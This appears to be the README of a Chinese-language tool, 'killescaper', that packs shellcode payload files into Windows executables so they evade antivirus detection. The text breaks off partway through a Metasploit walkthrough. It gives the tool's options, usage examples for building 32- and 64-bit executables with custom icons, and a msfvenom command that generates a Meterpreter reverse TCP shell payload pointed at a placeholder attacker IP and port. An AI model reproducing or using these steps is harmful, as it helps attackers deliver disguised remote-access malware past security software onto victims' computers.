 ```python
使用说明：

optional arguments:
  -h, --help            show this help message and exit
  -a ARCH, --arch ARCH  shellcode对应的操作系统位数 默认为64位
  -f FILE, --file FILE  任何包含shellcode的Payload文件 用于读取并生成
  -i ICON, --icon ICON  exe的Icon图标
  -c, --clean           清理output输出文件
```



- -f (--file)  **必要参数**，**指定任何包含shellcode的Payload文件，用于读取并生成**
- -a (--arch)  可选参数，**shellcode对应的操作系统位数 默认为64位**
- -i (--icon)  可选参数，**生成的exe的Icon图标**，程序默认图标为exeLogo.ico
- -c (--clean) **清理output输出文件**，程序每次运行会在output生成exe文件，使用该参数可以直接清理



### 使用案例

根据shellcode生成64位的exe执行文件：

```python
python killescaper -f payload64.c #根据shellcode生成64位的exe执行文件
```

根据shellcode生成32位的exe执行文件：

```python
python killescaper -a 32 -f payload32.c #根据shellcode生成32位的exe执行文件
```

自定义图标：

```python
python killescaper -a 64 -f payload64.c -i logo.ico #生成一个以logo.ico为图标的exe执行文件
```

清理输出文件夹：

```python
python killescaper --clean #清理output/所有文件
```



### metasploit生成免杀

只讲生成免杀的步骤，执行及如何返回监听请查看 **0x04 效果演示** 的视频。



1.msfvenom生成shellcode

x64:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP lport=PORT -f python -a x64 > shellcode.txt
```
